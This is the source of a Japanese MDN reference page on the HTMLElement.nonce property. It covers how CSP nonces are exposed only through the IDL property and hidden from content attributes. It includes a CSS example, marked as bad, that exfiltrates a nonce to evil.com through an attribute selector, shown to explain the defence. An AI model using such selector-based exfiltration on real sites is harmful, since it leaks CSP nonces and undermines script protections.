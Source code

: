 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
original_slug: Web/API/HTMLElement/nonce
l10n:
  sourceCommit: 0230ecc4418a1e52bca6b4d03c4eb794f90d04f1
---
```


{{APIRef("HTML DOM")}}

**`nonce`** は {{DOMxRef("HTMLElement")}} インターフェイスのプロパティで、特定の読み取りを続行できるかどうかを決定するために[コンテンツセキュリティポリシー](/ja/docs/Web/HTTP/CSP)で使用される一度だけの暗号化番号を返します。

後の実装では、 `nonce` 属性を持つ要素はスクリプトにのみ公開します（CSS 属性セレクターのようなサイドチャネルには公開しません）。

## 例

### ノンス値の受け取り

以前は、すべてのブラウザーが IDL 属性の `nonce` に対応している訳ではなかったので、回避策としては、代替として [`getAttribute`](/ja/docs/Web/API/Element/getAttribute) を使用するようにしていました。

```js
let nonce = script["nonce"] || script.getAttribute("nonce");
```

しかし、最近の版のブラウザーでは、この方法でアクセスすると `nonce` の値を隠します（空の文字列が返されます）。 IDL プロパティ (`script['nonce']`) がノンスにアクセスする唯一の方法となります。

ノンスを隠蔽することは、この CSS セレクターのようなコンテンツ属性からデータを取得するメカニズムによって、攻撃者がノンスデータを流出させることを防ぐのに役立ちます。

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 仕様書

{{Specifications}}

## ブラウザーの互換性

{{Compat}}

## 関連情報

- [`nonce` グローバル属性](/ja/docs/Web/HTML/Global_attributes/nonce)
- [コンテンツセキュリティポリシー](/ja/docs/Web/HTTP/CSP)
- CSP: {{CSP("script-src")}}
